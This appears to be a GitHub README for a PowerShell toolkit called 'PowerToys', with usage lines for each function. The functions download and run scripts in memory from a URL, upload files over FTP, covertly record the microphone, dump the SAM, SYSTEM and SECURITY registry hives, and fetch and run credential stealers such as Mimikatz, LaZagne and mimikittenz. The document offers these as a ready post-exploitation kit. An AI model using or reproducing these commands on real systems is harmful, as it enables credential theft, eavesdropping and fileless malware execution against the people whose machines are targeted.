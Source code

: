 # PowerToys v1.0
PowerToys is a powershell collection of userfull functions like ftp upload, download functions, run in memory, unzip functions, etc. It is distributed under the GNU GPLv3 license. Before use a function, you must load the script in memory.
```
Download -url "https://example.com/file.txt" -outfile "c:\windows\temp\file.txt"
```
## List of tools
### Download
This function download a file from an URL.
```
Download -url "https://example.com/file.txt" -outfile "c:\windows\temp\file.txt"
```
### DownloadScript
This function download and load in memory a powershell script from an URL.
```
DownloadScript -url "http://example.com/a.ps1" 
```
### Unzip
This function allows unzip a file in speficif folder.
```
Unzip -zipfile "myzip.zip" -path "c:\windows\temp"
```
### UploadFtp
This function allows upload a file to FTP server.
```
UploadFtp -address "192.168.0.1" -username "username" -password "password" -pathFileName "/folder/file.txt" -uploadfile "file.txt"
```
### RunVoiceRecord
This functions allows record from mic.
```
RunVoiceRecord -fullPathOutput "C:\windows\temp\secret.wav" -seconds 120
```
### DumpHives
This functio dump sam, system and security from register hives.
```
DumpHives -dumpfolder "C:/windows/temp"
```
### RunMitmp
This function download, and run mitmproxy, in the 8080 port.
```
RunMitmp
```
### RunLazagne
This function download, unzip, and run Lazagne.
```
RunLazagne
```
### RunMimikatz
This function download and run mimikatz from Powersploit.
```
RunMimikatz
```
### RunMimikittenz
This function download and run mimikittenz.
```
RunMimikittenz
```
